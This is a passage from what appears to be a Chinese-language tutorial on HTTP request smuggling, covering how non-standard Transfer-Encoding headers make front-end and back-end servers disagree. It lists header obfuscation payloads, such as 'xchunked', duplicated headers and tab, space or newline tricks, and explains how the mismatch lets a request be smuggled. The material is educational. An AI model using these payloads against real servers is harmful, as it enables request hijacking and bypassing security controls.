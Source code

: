 ![90fb2b630c2195ffc727530c05a0e4c1.png](/assets/img/md/2022-02-06-http_request_smuggling/90fb2b630c2195ffc727530c05a0e4c1.png)

## 2.3 非标准TE头

一般情况下，Front-End 与 Back-End 都支持 Transfer-Encoding 头，但要知道，不同服务器对非法协议、解析顺序的处理不同。所以可以通过一些细微的修改 Transfer-Encoding ，使前后端只有一个服务器解析该字段，实现相应的利用。例如：

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

攻击示例：

Front-End 取第一个 Transfer-Encoding 字段，可以正常解析。Back-End 取第二个Transfer-Encoding 字段，无法识别，取Content-Length，默认长度为0。实现请求走私
